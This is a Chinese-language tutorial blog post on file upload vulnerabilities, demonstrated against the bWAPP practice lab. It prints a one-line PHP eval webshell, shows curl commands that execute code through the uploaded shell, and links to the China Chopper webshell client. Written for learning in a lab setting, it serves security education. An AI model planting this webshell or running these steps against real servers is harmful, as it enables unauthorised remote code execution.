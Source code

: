 ```yaml
---
title: '文件上传漏洞[一]'
tags:
  - Web安全
categories:
  - 文件上传漏洞
summary: 文件上传漏洞随笔
img: /images/web安全/1.jpg
abbrlink: c9a
date: 2021-03-15 13:00:00
updated: 2021-03-15 13:00:00
---
```







## 一、文件上传漏洞概述

   
   
  文件上传（File Upload）是大部分Web应用都具备的功能，例如用户上传附件、改头像、分享图片等。

文件上传漏洞是在开发者没有做充足验证（包括前端，后端）情况下，允许用户上传恶意文件，这里上传的文件可以是木马、病毒、恶意脚本或者Webshell等。


-----






## 二、编辑木马文件并上传
### 1.eval函数



eval( string $code)

把字符串 code 作为PHP代码执行。函数eval()语言结构允许执行任意 PHP 代码。code为 需要被执行的字符串 。

代码执行的作用域是调用 eval() 处的作用域。因此，eval() 里任何的变量定义、修改，都会在函数结束后被保留。

----

### 2.PHP一句话木马





	<?php @eval($_POST['hacker']); ?>

新建文本文件写入PHP一句话木马，并将txt后缀改为php.

![](https://img-blog.csdnimg.cn/20210314115226333.png)


----

### 3.上传PHP文件
登录bwapp靶场后选择Unrestricted File Upload,文件上传漏洞上传文件，上传后可以看到路径为   靶场路径+/images/shell.php

![](https://img-blog.csdnimg.cn/20210314115551830.png)
![](https://img-blog.csdnimg.cn/20210314115616674.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjgxNTMy,size_16,color_FFFFFF,t_70)

----

### 4.webshell执行命令
在cmd执行

	curl -d "hacker=echo get_current_user();" 靶场路径/images/shell.php
	curl -d "hacker=echo getcwd();" 靶场路径/images/shell.php


get_current_user — 获取当前 PHP 脚本所有者名称

getcwd — 取得当前工作目录。
![](https://img-blog.csdnimg.cn/20210314115808496.png)


----


### 5.使用中国菜刀连接
下载链接：https://github.com/raddyfiy/caidao-official-version

打开软件后，右键添加SHELL连接即可。

![](https://img-blog.csdnimg.cn/20210314120042500.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjgxNTMy,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20210314120010248.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjgxNTMy,size_16,color_FFFFFF,t_70)

----


### 6.不同语言一句话木马
![](https://img-blog.csdnimg.cn/20210314120109482.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNjgxNTMy,size_16,color_FFFFFF,t_70)


----